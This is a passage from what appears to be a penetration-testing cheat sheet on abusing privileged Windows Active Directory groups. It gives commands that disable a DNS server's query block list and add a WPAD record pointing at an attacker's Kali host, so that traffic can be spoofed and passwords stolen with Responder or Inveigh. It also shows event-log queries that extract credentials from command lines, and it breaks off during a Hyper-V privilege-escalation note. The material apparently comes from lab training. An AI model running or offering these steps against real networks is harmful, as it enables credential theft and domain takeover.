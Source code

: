 	6. Clean-up (if not in CTF)

		```cmd
		reg query \\[IP]\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
		reg delete \\[IP]\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
		sc.exe start dns
		sc query dns
		```

- **Create WPAD Record**

	To perform traffic spoofing and steal passwords

	1. Disable the global query block list

		```cmd
		Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
		```

	2. Add WPAD Record to Kali

		```cmd
		Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address [KALI_IP]
		```

	3. Use [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing

#### Event Log Reader

They can read logs.

- Read priviliged logs

	```cmd
	wevtutil qe Security /rd:true /f:text | findstr "/user"
	```

	- `/u:[USER] /p:[PASS]` Add credentials of the Log Reader

- Read general logs

	```powershell
	Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
	```

	- Run as another user with the `-Credential` parameter.
#### Exchange Windows Permission (AD)

&rarr; WriteDacl over the Domain
#### Hyper-V Administrators (AD)

Firefox's Mozilla Maintenance Service can be exploited to execute commands as SYSTEM, by creating a hard link to a protected SYSTEM file and replacing it with a malicious  executable:

bash
